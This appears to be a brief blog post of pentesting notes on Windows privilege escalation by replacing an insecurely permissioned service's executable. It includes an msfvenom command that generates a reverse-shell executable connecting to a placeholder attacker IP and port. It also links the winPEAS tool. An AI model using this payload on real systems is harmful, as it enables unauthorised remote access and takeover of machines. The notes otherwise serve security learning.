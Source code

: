 ```yaml
---
layout: post
title: 'Notes | Windows Privilage Escalation'
permalink: /notes/system/windows-privilage-escalation/
---
```


# [](#header-4)Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves).
We can create a reverse shell with **msfvenom**:
{% highlight plain %}
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
{% endhighlight %}
And change the **reverse.exe** name with the service.exe name.

# [](#header-4)Tools
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

# [](#header-4)Writing more...